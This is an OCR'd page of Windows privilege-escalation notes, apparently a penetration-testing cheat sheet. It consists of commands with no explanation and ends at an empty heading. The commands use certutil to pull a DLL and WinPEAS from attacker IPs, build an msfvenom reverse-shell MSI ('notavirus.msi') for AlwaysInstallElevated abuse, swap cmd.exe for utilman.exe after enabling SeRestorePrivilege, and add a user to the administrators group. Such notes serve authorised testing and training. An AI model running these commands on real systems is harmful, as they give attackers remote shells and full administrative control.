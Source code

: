```jsx
Restart-Service -Name 'mysql'
shutdown /r /t 0
```

### PATH & ENV

```jsx
get-childitem env:
```

```jsx
echo %PATH%
get-childitem env:path | Format-List *
certutil -urlcache -split -f http://192.168.45.214/shell.dll C:\Users\emma\AppData\Local\Microsoft\WindowsApps\BetaLibrary.Dll
```

### AlwaysInstallElevated

```jsx
reg query HKLM\SOFTWARE\Policies\Microsoft\Windows\Installer
reg query HKCU\SOFTWARE\Policies\Microsoft\Windows\Installer
msfvenom -p windows/x64/shell_reverse_tcp LHOST=192.168.45.154 LPORT=445 -f msi > notavirus.msi
msiexec /i notavirus.msi
```

### WinPEASx64.exe

```jsx
certutil -split -urlcache -f http://192.168.45.218/winPEASx64.exe \windows\temp\winpeas.exe
\windows\temp\winpeas.exe
```

### **SeRestorePrivilege**

```jsx
# Enable the privilege (Can skip if Enabled already)
wget https://raw.githubusercontent.com/gtworek/PSBits/master/Misc/EnableSeRestorePrivilege.ps1
certutil -urlcache -split -f http://192.168.45.211/EnableSeRestorePrivilege.ps1
./EnableSeRestorePrivilege.ps1

# Abuse with RDP - Change binary in system32
move C:\Windows\System32\utilman.exe C:\Windows\System32\utilman.old
move C:\Windows\System32\cmd.exe C:\Windows\System32\utilman.exe
rdesktop 192.168.224.165
# press Win+U

# If shell drops we can add user to admin group with fast typing
net localgroup administrators enox /add
```

[Abusing Tokens | HackTricks](https://book.hacktricks.xyz/windows-hardening/windows-local-privilege-escalation/privilege-escalation-abusing-tokens#table)

### SeBackupPrivilege

